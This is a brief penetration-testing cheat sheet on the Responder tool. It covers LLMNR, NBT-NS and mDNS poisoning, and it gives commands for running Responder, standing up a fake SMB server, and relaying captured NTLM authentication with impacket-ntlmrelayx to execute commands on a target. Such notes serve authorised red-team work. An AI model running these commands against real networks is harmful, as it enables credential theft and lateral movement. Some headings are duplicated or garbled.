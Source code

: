 ```yaml
---
icon: gear
---
```


# Responder

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**Responder**</mark> is a widely used <mark style="color:yellow;">**tool**</mark> in penetration test scenarios and can be used for lateral movement across the network by red teamers. The tool contains many useful features like <mark style="color:yellow;">**LLMNR**</mark>, <mark style="color:yellow;">**NT-NS**</mark> and <mark style="color:yellow;">**MDNS**</mark> <mark style="color:yellow;">**poisoning**</mark>. It is used in practical scenarios for objectives like hash capture or poisoned answer forwarding supporting various AD attacks.&#x20;

More about it you could read here: [**\[LINK\]**](https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/)

## <mark style="color:yellow;">Listen All Mode</mark>

```bash
sudo responder -I ens224 -A
```

## <mark style="color:yellow;">**Verbose Mode**</mark>

## <mark style="color:yellow;">Listen All Mode</mark>

```bash
sudo responder -I ens224 -v
```

## <mark style="color:yellow;">**Set up a fake SMB Server**</mark>

```bash
responder -I {INTERFACENAME}
```

With this we could intercept information when machine computer tries to do <mark style="color:yellow;">**Name Resolution (PR)**</mark>, because it couldn't find a share's IP address in **/etc/hosts,** in **DNS cache** and in **local DNS server**. Because of IP address absence, it would make a multicast request, which we could intercept and use credentials for impersonation. This is <mark style="color:yellow;">**NTLM Relay attack**</mark>, where we are intercepting NTLM authentication request.

<pre class="language-bash"><code class="lang-bash">impacket-ntlmrelayx --no-http-server -smb2support -t 13.13.13.13
<strong># ALSO USE -c to execute command
</strong></code></pre>
